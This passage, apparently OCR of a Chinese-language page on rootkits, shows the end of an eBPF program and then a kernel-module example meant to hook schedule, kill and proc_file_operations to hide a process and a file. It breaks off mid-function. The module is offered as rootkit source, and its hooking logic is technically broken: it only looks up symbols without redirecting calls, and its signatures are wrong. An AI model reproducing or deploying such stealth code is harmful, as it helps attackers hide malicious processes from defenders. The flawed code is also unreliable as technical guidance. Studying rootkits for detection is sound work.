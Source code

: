    ```c
           }
       }
   
       return 0;
   }
   
   SEC("kprobe/do_exit")
   int kprobe__do_exit(struct pt_regs *ctx)
   {
       pid_t pid = bpf_get_current_pid_tgid();
   
       // 当进程退出时，从blocked_pids中删除对应的条目
       bpf_map_delete_elem(&blocked_pids, &pid);
   
       return 0;
   }
   
   char _license[] SEC("license") = "GPL";
   ```

2. **内核级rootkits**：可以通过修改内核内存中的数据结构或系统调用来实现其恶意目的例如，它们会修改内核的进程表，使得恶意进程看起来像是合法的系统进程，从而避免被安全软件检测到或者，它们会修改系统调用表，使得某些系统调用被恶意代码接管，从而实现对系统的控制

   **示列：钩住了`schedule`和`kill`和`proc_file_operations`函数，隐藏特定的进程和文件**

   ```c
   #include <linux/module.h>
   #include <linux/kernel.h>
   #include <linux/sched.h>
   #include <linux/kallsyms.h>
   #include <linux/fs.h>
   
   static void (*old_schedule)(void) = NULL;
   static void (*old_kill)(pid_t pid, int sig) = NULL;
   static struct file_operations *(*old_proc_file_operations)(const char *name) = NULL;
   
   static void new_schedule(void)
   {
       printk(KERN_INFO "schedule function has been called\n");
       old_schedule();
   }
   
   static int new_kill(pid_t pid, int sig)
   {
       if (pid == 1234) // 假设我们要隐藏的进程的PID是1234
           return 0; // 忽略这个信号
       return old_kill(pid, sig);
   }
   
   static struct file_operations *new_proc_file_operations(const char *name)
   {
       if (strcmp(name, "cmdline") == 0) // 假设我们要隐藏的文件是/proc/cmdline
           return NULL; // 返回NULL表示这个文件不存在
       return old_proc_file_operations(name);
   }
   
   static int __init init_hook(void)
   {
       old_schedule = (void *)kallsyms_lookup_name("schedule");
       old_kill = (void *)kallsyms_lookup_name("kill");
       old_proc_file_operations = (void *)kallsyms_lookup_name("proc_file_operations");
   
       if (old_schedule && old_kill && old_proc_file_operations)
       {
   ```